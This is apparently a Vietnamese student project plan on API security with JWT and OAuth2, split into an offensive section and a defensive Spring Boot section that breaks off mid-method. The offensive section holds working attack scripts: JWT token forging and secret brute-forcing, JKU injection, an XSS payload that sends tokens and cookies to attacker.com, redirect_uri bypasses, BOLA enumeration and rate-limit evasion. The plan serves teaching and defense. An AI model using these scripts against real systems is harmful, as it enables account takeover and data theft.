






# 🔐 Đồ Án An Toàn Thông Tin: Bảo Mật API RESTful với JWT & OAuth2

## Mục Lục
- [I. Phân Tích Đề Tài](#i-phân-tích-đề-tài)
- [II. Các Kỹ Thuật Tấn Công API Thực Tế](#ii-các-kỹ-thuật-tấn-công-api-thực-tế)
- [III. Chiến Lược Bảo Mật với JWT & OAuth2](#iii-chiến-lược-bảo-mật-với-jwt--oauth2)
- [IV. Kiến Trúc Hệ Thống Demo](#iv-kiến-trúc-hệ-thống-demo)
- [V. Phân Công Nhiệm Vụ Nhóm 3 Người](#v-phân-công-nhiệm-vụ-nhóm-3-người)
- [VI. Timeline & Deliverables](#vi-timeline--deliverables)

---

## I. Phân Tích Đề Tài

### 1.1 Tổng Quan
Đề tài yêu cầu xây dựng một hệ thống **demo thực hành** gồm 2 phần:
- **Phần Tấn Công (Offensive)**: Thực hiện các kỹ thuật tấn công API thực tế mà hacker sử dụng
- **Phần Phòng Thủ (Defensive)**: Triển khai bảo mật API bằng JWT và OAuth2

### 1.2 Điểm Nhấn Để Gây Ấn Tượng Với Giảng Viên

> [!IMPORTANT]
> **3 yếu tố tạo điểm nhấn:**
> 1. **Demo live tấn công thực tế** — Không chỉ lý thuyết, mà show được tấn công đang diễn ra
> 2. **So sánh Before/After** — Hệ thống trước và sau khi áp dụng bảo mật
> 3. **Dashboard trực quan** — Hiển thị realtime các cuộc tấn công và cách hệ thống phản ứng

### 1.3 Phạm Vi Đề Tài



---

## II. Các Kỹ Thuật Tấn Công API Thực Tế

> [!CAUTION]
> Tất cả các kỹ thuật dưới đây chỉ được thực hành trên hệ thống demo của chính nhóm. Việc tấn công hệ thống của người khác mà chưa có sự cho phép là **vi phạm pháp luật**.

### 2.1 JWT Attacks (Tấn Công JWT)

#### 🔴 Attack #1: Algorithm Confusion Attack (CVE-2015-9235)

**Mức độ nguy hiểm: ⚠️ CRITICAL**

**Mô tả**: Hacker thay đổi algorithm trong JWT header từ `RS256` (asymmetric) sang `HS256` (symmetric), rồi dùng chính **public key** (vốn công khai) để sign token. Server nhầm lẫn và verify thành công.

**Cách thực hiện:**
```python
# attacker_jwt_alg_confusion.py
import jwt
import base64

# 1. Lấy public key từ server (thường public)
# GET /.well-known/jwks.json hoặc /api/public-key
public_key = open("server_public_key.pem", "r").read()

# 2. Tạo payload giả mạo (nâng quyền admin)
malicious_payload = {
    "sub": "1234567890",
    "name": "Normal User",
    "role": "admin",           # Escalate to admin!
    "iat": 1516239022,
    "exp": 9999999999          # Token never expires
}

# 3. Sign token với HS256 sử dụng public key làm secret
forged_token = jwt.encode(
    malicious_payload,
    public_key,                # Dùng public key như secret
    algorithm="HS256"          # Đổi sang HS256
)

print(f"Forged Token: {forged_token}")

# 4. Gửi request với token giả
import requests
headers = {"Authorization": f"Bearer {forged_token}"}
response = requests.get("http://target-api/admin/users", headers=headers)
print(f"Response: {response.status_code} - {response.text}")
```

**Tại sao hoạt động?**
- RS256: Server sign bằng **private key**, verify bằng **public key**
- HS256: Server sign VÀ verify bằng **cùng một secret key**
- Khi đổi sang HS256, server dùng public key (đã biết) để verify → **Match!**

**Các case thực tế**: CVE-2015-9235 ảnh hưởng nhiều thư viện JWT (auth0/node-jsonwebtoken, pyjwt < 1.5.0)

---

#### 🔴 Attack #2: `"alg": "none"` Attack

**Mức độ nguy hiểm: ⚠️ CRITICAL**

**Mô tả**: Đặt algorithm thành `none`, bỏ phần signature. Một số server cấu hình sai sẽ chấp nhận token không có signature.

```python
# attacker_none_algorithm.py
import base64
import json

# Tạo header với alg: none
header = base64.urlsafe_b64encode(
    json.dumps({"alg": "none", "typ": "JWT"}).encode()
).decode().rstrip("=")

# Payload giả mạo
payload = base64.urlsafe_b64encode(
    json.dumps({
        "sub": "admin",
        "role": "superadmin",
        "exp": 9999999999
    }).encode()
).decode().rstrip("=")

# Token KHÔNG có signature (chỉ có dấu chấm cuối)
forged_token = f"{header}.{payload}."

print(f"Token (no sig): {forged_token}")

# Thử nhiều biến thể mà hacker dùng để bypass filter
variants = [
    f"{header}.{payload}.",           # none
    f"{header}.{payload}.garbage",     # none with garbage sig
]

# Thay header variants
for alg_name in ["none", "None", "NONE", "nOnE"]:
    h = base64.urlsafe_b64encode(
        json.dumps({"alg": alg_name, "typ": "JWT"}).encode()
    ).decode().rstrip("=")
    variants.append(f"{h}.{payload}.")
```

---

#### 🔴 Attack #3: JWT Secret Key Brute Force (Bẻ Khóa JWT)

**Mức độ nguy hiểm: ⚠️ HIGH**

**Mô tả**: Nếu server dùng HS256 với secret key yếu, hacker có thể brute-force bằng wordlist.

```bash
# Sử dụng tool hashcat (cực nhanh trên GPU)
hashcat -a 0 -m 16500 jwt_token.txt /usr/share/wordlists/rockyou.txt

# Hoặc dùng jwt_tool (chuyên dụng cho JWT)
python3 jwt_tool.py <JWT_TOKEN> -C -d /usr/share/wordlists/rockyou.txt

# Hoặc dùng John the Ripper
john jwt_hash.txt --wordlist=rockyou.txt --format=HMAC-SHA256
```

```python
# attacker_jwt_bruteforce.py
import jwt
import sys

target_token = "eyJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJ1c2VyMSJ9.xxxxx"

# Wordlist phổ biến cho JWT secrets
common_secrets = [
    "secret", "password", "123456", "jwt_secret", "mysecretkey",
    "your-256-bit-secret", "shhhhh", "admin", "changeme",
    "supersecret", "jwt", "token", "api_secret", "my_secret",
    "default", "qwerty", "letmein", "welcome", "monkey",
    # Thêm từ rockyou.txt...
]

print("[*] Brute-forcing JWT secret key...")
for secret in common_secrets:
    try:
        decoded = jwt.decode(target_token, secret, algorithms=["HS256"])
        print(f"[+] SECRET FOUND: '{secret}'")
        print(f"[+] Decoded payload: {decoded}")
        
        # Tạo token mới với quyền admin
        admin_payload = decoded.copy()
        admin_payload["role"] = "admin"
        new_token = jwt.encode(admin_payload, secret, algorithm="HS256")
        print(f"[+] Admin token: {new_token}")
        sys.exit(0)
    except jwt.InvalidSignatureError:
        continue

print("[-] Secret not found in wordlist")
```

---

#### 🔴 Attack #4: JWT Header Injection (JKU/X5U Injection)

**Mức độ nguy hiểm: ⚠️ HIGH**

**Mô tả**: Inject URL trong header `jku` (JSON Web Key Set URL) hoặc `x5u` trỏ tới server của attacker, khiến server fetch key từ attacker.

```python
# attacker_jku_injection.py
import jwt
import json
from cryptography.hazmat.primitives.asymmetric import rsa
from cryptography.hazmat.primitives import serialization
from cryptography.hazmat.backends import default_backend

# 1. Attacker tạo RSA key pair riêng
private_key = rsa.generate_private_key(
    public_exponent=65537,
    key_size=2048,
    backend=default_backend()
)

# 2. Tạo JWT với jku trỏ tới server attacker
headers = {
    "alg": "RS256",
    "typ": "JWT",
    "jku": "https://attacker.com/.well-known/jwks.json"  # ← Attacker's server
}

payload = {
    "sub": "admin",
    "role": "superadmin",
    "exp": 9999999999
}

# 3. Sign bằng private key của attacker
forged_token = jwt.encode(
    payload,
    private_key,
    algorithm="RS256",
    headers=headers
)

# 4. Trên server attacker.com, host JWKS chứa public key tương ứng
# Server target sẽ fetch public key từ attacker → verify thành công!
```

---

#### 🔴 Attack #5: Token Replay & Theft

**Mức độ nguy hiểm: ⚠️ HIGH**

```python
# attacker_token_replay.py
"""
Kịch bản: Đánh cắp token từ nhiều nguồn khác nhau
"""

# === Kịch bản 1: Sniff token từ HTTP (không HTTPS) ===
# Dùng Wireshark/tcpdump bắt traffic
# Filter: http.authorization contains "Bearer"

# === Kịch bản 2: Đánh cắp token từ URL (Referrer leak) ===
# Nếu token được truyền qua URL parameter:
# https://api.example.com/data?token=eyJhbGciOiJI...
# → Token bị leak qua Referer header khi click link external

# === Kịch bản 3: XSS để đánh cắp token từ localStorage ===
xss_payload = """
<script>
  // Đánh cắp token từ localStorage
  var token = localStorage.getItem('access_token');
  
  // Gửi về server attacker
  fetch('https://attacker.com/steal?token=' + token);
  
  // Hoặc đánh cắp từ cookie (nếu không có HttpOnly)
  fetch('https://attacker.com/steal?cookies=' + document.cookie);
</script>
"""

# === Kịch bản 4: Replay attack ===
import requests
import time

stolen_token = "eyJhbGciOiJIUzI1NiJ9.eyJzdWIiOi..."

# Attacker sử dụng token bị đánh cắp liên tục
# Nếu server không có cơ chế revoke → token vẫn hợp lệ cho đến khi hết hạn
for i in range(100):
    r = requests.get(
        "http://target-api/api/sensitive-data",
        headers={"Authorization": f"Bearer {stolen_token}"}
    )
    print(f"[{i}] Status: {r.status_code}")
    time.sleep(1)
```

---

### 2.2 OAuth2 Attacks (Tấn Công OAuth2)

#### 🔴 Attack #6: Authorization Code Interception

**Mức độ nguy hiểm: ⚠️ CRITICAL**

```python
# attacker_auth_code_intercept.py
"""
Tấn công OAuth2 Authorization Code Flow
Khi không có PKCE (Proof Key for Code Exchange)
"""

# Flow bình thường:
# 1. User → Authorization Server: GET /authorize?response_type=code&client_id=xxx&redirect_uri=xxx
# 2. Authorization Server → User: redirect to redirect_uri?code=AUTH_CODE
# 3. Client → Authorization Server: POST /token (code=AUTH_CODE, client_secret=xxx)

# Tấn công: Intercept authorization code ở bước 2
# Trên mobile app, attacker đăng ký custom URL scheme giống app target

# Kịch bản phishing redirect_uri:
malicious_authorize_url = (
    "https://auth-server.com/authorize?"
    "response_type=code&"
    "client_id=legitimate_client_id&"
    "redirect_uri=https://attacker.com/callback&"  # ← Attacker's URI
    "scope=read+write&"
    "state=random_state"
)

# Nếu server không validate redirect_uri chặt chẽ:
# Bypass techniques:
bypass_uris = [
    "https://attacker.com/callback",                    # Completely different
    "https://legitimate-app.com.attacker.com/callback",  # Subdomain trick
    "https://legitimate-app.com@attacker.com/callback",  # @ trick
    "https://legitimate-app.com%2F@attacker.com",        # URL encoding
    "https://legitimate-app.com/callback/../../../attacker", # Path traversal
    "https://legitimate-app.com/callback?next=https://attacker.com", # Open redirect
]
```

---

#### 🔴 Attack #7: CSRF Attack on OAuth2 Flow

**Mức độ nguy hiểm: ⚠️ HIGH**

```python
# attacker_oauth_csrf.py
"""
Tấn công CSRF trên OAuth2 flow khi không có 'state' parameter
"""

# 1. Attacker khởi tạo OAuth flow, nhận authorization code
# 2. KHÔNG đổi code → access_token, mà gửi URL chứa code cho victim

# Tạo trang CSRF
csrf_page = """
<!DOCTYPE html>
<html>
<head><title>You won a prize!</title></head>
<body>
  <h1>Congratulations! Click to claim your prize!</h1>
  
  <!-- Tự động redirect victim tới OAuth callback với code của attacker -->
  
  
  <!-- Hoặc dùng iframe -->
  <iframe src="https://target-app.com/oauth/callback?code=ATTACKER_AUTH_CODE" 
          style="display:none"></iframe>
          
  <!-- Kết quả: Account victim bị link với account attacker trên OAuth provider -->
  <!-- Attacker giờ có thể login vào account victim thông qua OAuth -->
</body>
</html>
"""

# Nếu có state parameter nhưng implementation yếu:
weak_states = [
    "",                          # Empty state
    "static_value",              # Hardcoded state
    "123456",                    # Predictable state  
    "base64(user_id)",          # Guessable state
]
```

---

#### 🔴 Attack #8: OAuth2 Scope Abuse / Privilege Escalation

**Mức độ nguy hiểm: ⚠️ HIGH**

```python
# attacker_scope_abuse.py
import requests

# Tấn công 1: Request nhiều scope hơn cần thiết
# App chỉ cần "read:profile" nhưng request thêm
malicious_auth_url = (
    "https://auth-server.com/authorize?"
    "response_type=code&"
    "client_id=xxx&"
    "redirect_uri=https://app.com/callback&"
    "scope=read:profile+write:profile+admin:all+delete:users"  # Over-scoping
)

# Tấn công 2: Scope upgrade khi refresh token
# Bước 1: Xin scope ít (user dễ approve)
# Bước 2: Khi refresh, request thêm scope
response = requests.post("https://auth-server.com/token", data={
    "grant_type": "refresh_token",
    "refresh_token": "valid_refresh_token",
    "scope": "read:profile write:profile admin:all",  # Thêm scope!
    "client_id": "xxx",
    "client_secret": "xxx"
})

# Tấn công 3: Token được cấp cho client A, dùng ở client B
# (Confused Deputy Attack)
# Lấy access_token từ app A (ít bảo mật), dùng để truy cập API của app B
token_from_app_a = "eyJhbGciOi..."
r = requests.get(
    "https://api-app-b.com/admin/data",
    headers={"Authorization": f"Bearer {token_from_app_a}"}
)
```

---

### 2.3 API-Specific Attacks (Tấn Công Đặc Thù API)

#### 🔴 Attack #9: BOLA/IDOR (Broken Object Level Authorization)

**Mức độ nguy hiểm: ⚠️ CRITICAL** — Top #1 OWASP API Security 2023

```python
# attacker_bola_idor.py
"""
BOLA: Broken Object Level Authorization
Hacker #1 attack pattern phổ biến nhất trên API
"""
import requests

# User hợp lệ với ID = 1001
legitimate_token = "eyJhbGciOiJIUzI1NiJ9..."  # Token của user 1001

# Tấn công: Thay đổi ID để truy cập data của user khác
for user_id in range(1, 10000):
    response = requests.get(
        f"http://target-api/api/users/{user_id}/profile",
        headers={"Authorization": f"Bearer {legitimate_token}"}
    )
    if response.status_code == 200:
        data = response.json()
        print(f"[+] User {user_id}: {data}")
        # Lấy được thông tin: tên, email, SĐT, địa chỉ...

# Biến thể nâng cao:
# 1. BOLA trên UUID (brute-force khó hơn nhưng vẫn khả thi nếu leak)
# GET /api/users/550e8400-e29b-41d4-a716-446655440000/orders

# 2. BOLA trên nested resources
# GET /api/users/1001/orders/5001  → Đổi order_id để xem order người khác

# 3. BOLA qua GraphQL
graphql_query = """
query {
  user(id: 1002) {
    name
    email
    creditCard {
      number
      cvv
    }
  }
}
"""
```

---

#### 🔴 Attack #10: Mass Assignment Attack

**Mức độ nguy hiểm: ⚠️ HIGH**

```python
# attacker_mass_assignment.py
"""
Mass Assignment: Gửi thêm field không mong muốn trong request body
để thay đổi dữ liệu mà user không được phép
"""
import requests

token = "eyJhbGciOiJIUzI1NiJ9..."

# Request bình thường: Cập nhật profile
normal_update = {
    "name": "John Doe",
    "email": "john@example.com"
}

# Tấn công: Thêm field ẩn
malicious_update = {
    "name": "John Doe",
    "email": "john@example.com",
    "role": "admin",              # ← Tự nâng quyền
    "is_admin": True,             # ← Variant khác
    "account_balance": 999999,    # ← Thay đổi số dư
    "is_verified": True,          # ← Bypass verification
    "subscription": "premium",    # ← Free premium
    "password_reset_token": "xxx" # ← Chiếm account
}

response = requests.put(
    "http://target-api/api/users/profile",
    json=malicious_update,
    headers={"Authorization": f"Bearer {token}"}
)

# Nếu server dùng ORM và bind trực tiếp request body → NGUY HIỂM
# Ví dụ code server bị lỗi:
# user.update(request.body)  ← Bind toàn bộ, không filter
```

---

#### 🔴 Attack #11: Rate Limiting Bypass

**Mức độ nguy hiểm: ⚠️ MEDIUM**

```python
# attacker_rate_limit_bypass.py
"""
Bypass Rate Limiting trên API để brute-force, scrape dữ liệu
"""
import requests

target_url = "http://target-api/api/login"

# Technique 1: Thay đổi IP headers
ip_spoofing_headers = [
    {"X-Forwarded-For": f"10.0.0.{i}"} for i in range(1, 255)
] + [
    {"X-Real-IP": f"192.168.1.{i}"} for i in range(1, 255)
] + [
    {"X-Originating-IP": f"172.16.0.{i}"} for i in range(1, 255)
] + [
    {"X-Client-IP": f"10.10.{i}.{j}"} for i in range(255) for j in range(255)
]

# Technique 2: Thay đổi endpoint format
endpoints_bypass = [
    "/api/login",
    "/api/LOGIN",            # Case variation
    "/api/login/",           # Trailing slash
    "/api/./login",          # Dot path
    "/api/login?dummy=1",    # Query param
    "/api%2Flogin",          # URL encoding
    "/api/login#fragment",   # Fragment
]

# Technique 3: HTTP Method confusion
# Nếu rate limit chỉ áp dụng cho POST
for method in ['POST', 'PUT', 'PATCH']:
    r = requests.request(method, target_url, json={
        "username": "admin",
        "password": "test123"
    })

# Technique 4: Distributed brute-force qua proxy rotation
proxies_list = [
    "http://proxy1:8080",
    "http://proxy2:8080",
    # ... hàng nghìn proxy
]
```

---

#### 🔴 Attack #12: API Enumeration & Information Disclosure

**Mức độ nguy hiểm: ⚠️ MEDIUM**

```python
# attacker_api_enumeration.py
"""
Thu thập thông tin và tìm API endpoints ẩn
"""
import requests

base_url = "http://target-api"

# 1. Tìm API documentation bị leak
doc_endpoints = [
    "/swagger-ui.html",
    "/swagger-ui/",
    "/api-docs",
    "/v2/api-docs",
    "/v3/api-docs",
    "/openapi.json",
    "/openapi.yaml",
    "/.well-known/openapi",
    "/graphql",              # GraphQL introspection
    "/graphiql",
    "/altair",
]

for endpoint in doc_endpoints:
    r = requests.get(f"{base_url}{endpoint}")
    if r.status_code == 200:
        print(f"[+] FOUND: {endpoint} → {len(r.text)} bytes")

# 2. Version enumeration (tìm API version cũ, ít bảo mật hơn)
for version in ["v1", "v2", "v3", "v0", "beta", "staging", "internal"]:
    r = requests.get(f"{base_url}/api/{version}/users")
    if r.status_code != 404:
        print(f"[+] API Version found: {version} → {r.status_code}")

# 3. Verbose error messages
malicious_inputs = [
    {"id": "' OR 1=1 --"},           # SQL Injection probe
    {"id": "{{7*7}}"},                # SSTI probe
    {"id": "../../../etc/passwd"},    # Path traversal probe
    {"id": None},                     # Null input
    {"id": -1},                       # Negative ID
    {"id": "a" * 10000},             # Buffer overflow probe
]

for payload in malicious_inputs:
    r = requests.get(f"{base_url}/api/users", params=payload)
    if "stack" in r.text.lower() or "error" in r.text.lower():
        print(f"[+] Info Disclosure with payload {payload}")
        print(f"    Response: {r.text[:500]}")
```

---

## III. Chiến Lược Bảo Mật với JWT & OAuth2

### 3.1 JWT Security Best Practices



#### Defense #1: Chống Algorithm Confusion

```java
// ✅ SECURE JWT Configuration (Spring Boot)
@Configuration
public class JwtSecurityConfig {
    
    // CHỈ cho phép RS256, KHÔNG chấp nhận algorithm khác
    @Bean
    public JwtDecoder jwtDecoder() {
        NimbusJwtDecoder decoder = NimbusJwtDecoder
            .withPublicKey(rsaPublicKey())
            .build();
        
        // Whitelist algorithm - QUAN TRỌNG!
        OAuth2TokenValidator<Jwt> algorithmValidator = token -> {
            String algorithm = token.getHeaders().get("alg").toString();
            if (!"RS256".equals(algorithm)) {
                return OAuth2TokenValidatorResult.failure(
                    new OAuth2Error("invalid_algorithm", 
                    "Only RS256 is accepted", null)
                );
            }
            return OAuth2TokenValidatorResult.success();
        };
        
        decoder.setJwtValidator(algorithmValidator);
        return decoder;
    }
    
    // ❌ VULNERABLE - Đừng làm thế này!
    // jwt.decode(token, secret, algorithms=["HS256", "RS256", "none"])
    // → Phải LUÔN specify một algorithm duy nhất
}
```

#### Defense #2: Token Rotation & Refresh Strategy

```java
// Token Service - Secure Implementation
@Service
public class TokenService {
    
    private static final long ACCESS_TOKEN_EXPIRY = 15 * 60 * 1000;    // 15 phút
    private static final long REFRESH_TOKEN_EXPIRY = 7 * 24 * 60 * 60 * 1000; // 7 ngày
    
    @Autowired
    private RedisTemplate<String, String> redisTemplate;
    
    /**
     * Tạo access token ngắn hạn
     */
    public String generateAccessToken(User user) {
        return Jwts.builder()
            .setSubject(user.getId().toString())
            .claim("role", user.getRole())
            .claim("permissions", user.getPermissions())
            .claim("token_id", UUID.randomUUID().toString())  // Unique per token
            .setIssuedAt(new Date())
            .setExpiration(new Date(System.currentTimeMillis() + ACCESS_TOKEN_EXPIRY))
            .setIssuer("your-api.com")
            .setAudience("your-api.com")
            .signWith(getPrivateKey(), SignatureAlgorithm.RS256)
            .compact();
    }
    
    /**
     * Refresh Token Rotation - Mỗi lần refresh, invalidate token cũ
     */
    public TokenPair refreshTokens(String refreshToken) {
        // 1. Verify refresh token
        Claims claims = validateRefreshToken(refreshToken);
        
        // 2. Check if refresh token đã bị sử dụng (Replay Detection)
        String tokenId = claims.get("token_id", String.class);
        if (isTokenUsed(tokenId)) {
            // Phát hiện replay attack! Revoke TẤT CẢ tokens của user
            revokeAllUserTokens(claims.getSubject());
            throw new SecurityException("Refresh token replay detected!");
        }
        
